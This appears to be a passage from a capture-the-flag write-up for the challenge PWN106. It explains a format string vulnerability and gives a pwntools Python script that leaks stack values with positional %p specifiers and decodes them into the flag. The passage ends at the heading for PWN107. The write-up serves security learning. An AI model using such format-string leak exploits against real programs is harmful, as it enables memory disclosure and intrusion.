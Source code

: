 The flag for this binary is stored in the binary itself. We can extract it using the format string vulnerability this program is vulnerable to.

To do so, we use the position parameter for a format string in the form of `%<n>$p`. This will print the nth pointer (`p`) from the string used as format string.

We use this to print 6 64bit numbers, which contain the flag.

```python
#!/usr/bin/env python3
#
# Exploit: format string
# Inject a format string to for the program to dump the flag

from pwn import *
import re


context.update(arch="amd64", os="linux")

process = process("./pwn106user.pwn106-user")
# process = remote("xxx", 9006)

process.clean()
process.sendline("%6$p %7$p %8$p %9$p %10$p %11$p")
text = process.recvline_containsS("Thanks", timeout=3)

print(text)

flag_search = re.search(
    r"(0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+)"
    " (0x[0-9a-f]+)$", text, re.IGNORECASE)

groups = (
    int(flag_search.group(1), 16),
    int(flag_search.group(2), 16),
    int(flag_search.group(3), 16),
    int(flag_search.group(4), 16),
    int(flag_search.group(5), 16),
    int(flag_search.group(6), 16),
)

output = bytearray(b"")
for g in groups:
    for i in range(8):
        output.append(g >> (i * 8) & 0xff)

print(output)
```

## PWN107 - Format string to bypass canary + buffer overflow to return to hidden function
